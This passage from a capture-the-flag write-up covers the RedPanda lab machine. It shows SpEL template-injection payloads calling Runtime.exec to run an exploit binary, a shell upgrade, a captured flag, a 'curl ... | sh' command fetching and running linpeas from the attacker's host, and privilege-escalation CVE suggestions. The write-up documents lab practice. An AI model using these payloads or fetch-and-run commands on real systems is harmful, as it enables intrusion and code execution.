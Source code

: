 ```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 exploit.elf")}
```
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./exploit.elf")}
```
Awesome we get a shell but its pretty bad so lets upgrade it and grab our user flag!

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```console
woodenk@redpanda:/home/woodenk$ cat user.txt
cat user.txt
e42c0d8eb6f8e80b686462868084ab43
woodenk@redpanda:/home/woodenk$ 
```

Next thing I did was run linpeas from the /tmp folder and we get a few interesting things back.

```console
└──╼ [★]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.65.161 - - [18/Aug/2022 23:09:01] "GET /linpeas.sh HTTP/1.1" 200 -
```
```console
curl http://10.10.14.30:8000/linpeas.sh | sh
```
I tried for awhile on the CVE but I wasnt having any luck. I didn't even try the others but maybe there was a vector in there somewhere.

in the credits folder we can see credentials but as the user woodenk I wasnt able to access it.

```
Vulnerable to CVE-2021-3560


╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
```